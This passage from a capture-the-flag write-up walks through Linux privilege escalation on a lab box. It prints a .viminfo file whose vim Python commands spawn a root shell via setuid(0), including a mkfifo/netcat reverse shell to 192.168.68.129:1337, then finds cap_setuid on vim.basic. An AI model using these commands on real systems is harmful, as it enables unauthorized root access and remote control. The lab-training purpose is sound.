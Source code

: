 ```console
drwxrwxr-x 2 leonard leonard 4096 Sep  4 21:35 .nano
-rw-r--r-- 1 leonard leonard   43 Sep  4 22:45 .profile
drwx------ 2 leonard leonard 4096 Sep  4 22:43 .ssh
-rw------- 1 leonard leonard 6132 Sep  4 22:49 .viminfo
```
**\.viminfo** seems to contain some information.

### Contents of .viminfo
```console
# File marks:
'0  3  0  :py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
'1  1  0  :py3 import os;os.setuid(0);os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.68.129 1337 >/tmp/f")
'2  1  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
'3  3  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")

# Jumplist (newest first):
-'  3  0  :py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  1  0  :py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  1  0  :py3 import os;os.setuid(0);os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.68.129 1337 >/tmp/f")
-'  1  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  3  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  1  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  3  0  :py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
-'  1  0  :py3 import os;os.setuid(0);os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.68.129 1337 >/tmp/f")
```
I found this interesting as the user leonard has tried to get a reverse shell as root using vim. So, I checked if the vim has SUID bit set or has any special capabilites.

### Checking for SUID binaries
```console
leonard@undiscovered:~$ find / -type f -name "*vi*" -perm -4000 -ls 2>/dev/null
   390706     12 -rwsr-xr-x   1 root     root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
```
I got nothing.

### Checking for linux capabilities
```console
leonard@undiscovered:~$ getcap -r / 2>/dev/null
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/vim.basic = cap_setuid+ep
```
And turns out vim.basic has a setuid capabilities which means when the vim.basic runs, it runs with root privileges.
So I checked on gtfobins the way to exploit this and got the following exploit.